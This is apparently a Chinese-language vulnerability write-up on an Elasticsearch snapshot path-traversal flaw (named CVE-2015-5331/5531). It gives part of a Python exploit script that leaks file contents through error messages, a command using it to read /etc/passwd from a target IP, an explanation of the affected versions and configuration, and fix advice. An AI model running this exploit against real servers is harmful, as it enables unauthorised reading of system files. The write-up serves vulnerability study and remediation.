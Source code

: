 ```
	try:
		urllib2.urlopen(xplurl)
	except urllib2.HTTPError, e:
		data = json.load(e)
		extrdata = re.findall(r'\d+', str(data['error']))
		decoder = bytearray()
		for i in extrdata[+2:]:
			decoder.append(int(i))
		print decoder


def main():
	createSnapdirs()
	grabFile(xplurl)


if __name__ == "__main__":
    main()
```

执行命令（IP自己改）

```
python cve-2015-5331.py 192.168.188.133 /etc/passwd
```

![image-20211219195743359](https://s2.loli.net/2022/03/26/aGQCL5e4qnSr8fO.png)

##  漏洞原理

**1.5.1**及以前，无需任何配置即可触发该漏洞。之后的新版，配置文件**elasticsearch.yml中必须存在path.repo**，该配置值为一个目录，且该目录必须可写，等于限制了备份仓库的根位置。不配置该值，默认不启动这个功能。

![image-20211219203624682](https://s2.loli.net/2022/03/26/bzM5DaVyh8AFBE7.png)

## 修复建议

1、升级版本

2、将**repo**目录权限设置为仅可读，不可写（自己建议的，仅在不影响业务的前提下）

